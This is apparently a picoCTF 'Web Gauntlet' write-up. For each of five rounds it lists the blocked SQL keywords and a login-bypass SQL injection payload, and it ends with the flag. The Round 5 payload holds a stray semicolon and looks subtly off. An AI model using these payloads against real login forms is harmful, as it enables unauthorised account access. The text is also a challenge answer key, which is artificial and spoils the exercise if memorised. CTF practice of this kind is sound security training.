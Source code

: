 # Web Gauntlet

http://jupiter.challenges.picoctf.org:42961/index.php<br>
http://jupiter.challenges.picoctf.org:42961/filter.php

# Round 1
or

Username: admin'--
Password: asdf

# Round 2
or and like = --

Username: admin'/\*
Password: asdf

# Round 3
or and = like > < --

Username: admin'/\*
Password: asdf

# Round 4
 or and = like > < -- admin

Username: '||'ad'||'min'/\*
Password: asdf

# Round 5
 or and = like > < -- union admin

Username: '||'ad'||;min'/\*
Password: asdf

flag: picoCTF{y0u_m4d3_1t_96486d415c04a1abbbcf3a2ebe1f4d02}
